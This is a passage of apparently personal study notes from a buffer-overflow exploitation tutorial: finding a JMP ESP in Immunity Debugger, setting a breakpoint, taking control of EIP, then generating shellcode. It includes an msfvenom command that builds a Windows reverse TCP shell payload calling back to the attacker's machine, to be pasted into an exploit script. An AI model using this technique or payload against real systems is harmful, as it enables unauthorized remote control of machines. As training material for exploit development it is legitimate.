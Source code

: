 * we should see the following output, meaning that we actually jumped to the ESP

![13-finding-ESP](images/13-finding-ESP.png)

* select it and hit **F2** (it will turn it blue)
* with that we just set a break point so it will not execute any further, it will break and wait for further instructions from us and that's what we want
* we're not gonna jump to anywhere and that doesn't matter, all we need to know is that our break point works
* to test it hit play in Immunity Debugger and run the exploit.py script. The program will stop and break at our break point
* we control the EIP now, we need to generate some shell code and point directly to it and we're in the home run!

![14-control-the-EIP](images/14-control-the-EIP.png)

## Gaining Shell Code And Gaining Root

* we're gonna use ***msfvenom*** to generate our shell code
* `msfvenom -p windows/shell_reverse_tcp LHOST=<kali IP> LPORT=<kali port> EXITFUNC=thread -f c -a x86 -b "\x00"`
* `p` for payload, `-f` for file type (export it in C), `-a` for architecture `b` and for bad bytes (from your notes you made earlier)
* copy generated shell code into our exploit.py script (we don't need the `:` at the end)
* always note the ***payload size***, it's not gonna matter now but could matter later in a more advanced exploit development
